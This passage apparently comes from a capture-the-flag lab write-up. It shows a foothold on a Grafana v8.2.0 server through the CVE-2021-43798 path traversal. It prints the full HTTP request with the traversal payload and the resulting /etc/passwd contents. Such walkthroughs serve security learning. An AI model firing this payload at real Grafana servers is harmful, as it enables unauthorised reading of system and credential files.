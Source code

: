 
## Foothold

The login page for Grafana shows v8.2.0, and after a very quick search, I discover [GitHub - jas502n/Grafana-CVE-2021-43798: Grafana Unauthorized arbitrary file reading vulnerability](https://github.com/jas502n/Grafana-CVE-2021-43798)

Now, copying the `GET /login` HTTP request for the page into Burp Suite's repeater, and trying the very first URL for path traversal to see if we can traverse back to the root of the file system, and read `/etc/passwd`:

```
GET /public/plugins/alertGroups/../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.183:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: redirect_to=%2Fpublic%2Fplugins%2Falertlist%2F
Upgrade-Insecure-Requests: 1

```

we are successful - here's the response showing `/etc/passwd`:

```
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-Length: 1983
Content-Type: text/plain; charset=utf-8
Expires: -1
Last-Modified: Mon, 14 Mar 2022 02:56:37 GMT
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-Xss-Protection: 1; mode=block
Date: Thu, 26 Jan 2023 10:03:19 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
```